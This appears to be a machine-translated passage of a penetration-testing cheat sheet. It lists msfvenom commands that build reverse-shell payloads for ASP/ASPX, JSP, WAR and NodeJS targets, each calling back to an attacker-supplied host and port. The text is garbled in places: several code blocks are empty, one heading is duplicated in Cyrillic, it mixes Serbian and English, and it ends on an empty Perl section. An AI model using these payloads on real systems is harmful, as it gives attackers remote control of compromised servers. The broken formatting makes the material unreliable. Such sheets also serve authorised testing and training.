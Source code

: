 ### ASP/x

#### Reverse shell

{% code overflow="wrap" %}
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx
```
{% endcode %}

### JSP

#### Reverse shell

{% code overflow="wrap" %}
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp
```
{% endcode %}

### WAR

#### Reverse Shell

{% code overflow="wrap" %}
```
```
{% endcode %}

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war
```

```
```

### NodeJS

### НодеJS

```bash
msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)
```

## **Skript jezički payloadi**

### **Perl**

{% code overflow="wrap" %}
```
```
{% endcode %}
